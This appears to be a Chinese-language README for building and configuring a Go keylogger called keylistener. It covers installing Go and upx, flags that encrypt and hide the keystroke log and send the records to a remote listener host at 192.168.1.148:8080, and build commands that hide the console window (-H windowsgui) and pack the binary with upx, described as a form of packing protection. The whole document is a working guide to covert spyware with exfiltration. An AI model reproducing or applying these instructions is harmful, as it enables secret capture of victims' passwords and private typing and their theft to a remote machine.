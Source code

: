 ### 一. 安装Go语言环境
下载对应版本，例如windows64位: go1.13.5.windows-amd64.msi，就单纯编译这程序的话，全部默认下一步就好
```
https://studygolang.com/dl # 官网被墙，可以使用这个
```
### 二. 安装upx(可选)
下载对应版本，例如windows64位: upx-3.95-win64.zip，是个二进制文件可执行文件免安装
```
https://github.com/upx/upx/releases/tag/v3.95
```

### 三. listener
键盘监听程序

#### 参数配置
##### 1. 编译后，以命令行参数的方式进行传入
```
$ keylistener.exe -h
    -E
       encode text (default false)
    -H
       hidden file (default false)
    -lh string
       listener host
    -o string
       output to file (default "c:\\sys\\key.txt")
```

参数：

* -E : 进行文本加密
* -H : 隐藏记录文件
* -lh: 远程接收主机地址
* -o: 本地暂存文件的路径

示例：
进行文本加密， 隐藏记录文件，并把记录发送到， 192.168.1.148:8080
```
$ keylistener.exe -E -H -lh 192.168.1.148:8080
```

##### 2. 设置默认参数，无需手动输入, 编译后直接启动程序可以使用
自行修改listener/main.go下面这几行代码代码

```
// 默认配置
const (
	defaultPath     = "c:\\sys\\key.txt"     // 默认文件保存路径
)
```

#### 编译

##### 1. 进入程序目录
```
$ cd keyboard/listener
```

##### 2. 编译程序
```
$ go build -ldflags "-s -w -H windowsgui" -o keylistener.exe .
```

##### 3. 可选，使用upx压缩程序（据说能起到一定加壳作用）
```
$ upx -9 keylistener.exe
```




